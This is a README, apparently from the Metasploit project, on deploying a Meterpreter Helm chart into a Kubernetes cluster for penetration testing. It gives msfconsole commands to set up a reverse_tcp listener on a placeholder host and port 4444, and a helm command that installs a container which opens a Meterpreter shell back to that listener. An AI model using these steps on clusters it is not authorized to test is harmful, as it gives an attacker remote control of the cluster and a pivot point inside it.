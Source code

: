 # Metasploit in Kubernetes

The most common workflow to test a Kubernetes environment with Metasploit is to target the Kubernetes API externally,
or through a compromised container - both of these workflows are currently supported directly within msfconsole.

An alternative to compromising a Kubernetes container to gain a Meterpreter session is to install the `meterpreter` helm chart into
a Kubernetes environment directly. This newly opened Meterpreter session will act as the pivot point for running additional
Metasploit modules, similar to the behavior of compromising an existing Kubernetes container with msfconsole.

## Installation

To install the Metasploit resources in to your Kubernetes environment: 

1. Make sure [Helm](https://helm.sh/) (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy Metasploit. You can install a local Kubernetes cluster using [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
   You can create local kind cluster by running  `make create-kind-cluster`
2. A penester should create a Metasploit listener from msfconsole:
```
use linux/x64/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 4444
to_handler
```

3. Install meterpreter helm chart by running:

```sh
export LHOST="x.x.x.x"
export LPORT="4444"
helm upgrade --create-namespace -i -n metasploit meterpreter ./meterpreter --set lhost=$LHOST --set lport=$LPORT
```
4. If the listener from step 3 was created, ensure you now have a Meterpreter session in msfconsole

## Privileges

The Meterpreter container can be deployed with different privileges and permissions - see the `privileges` section within
[./meterpreter/values.yaml](values.yaml) for more details.
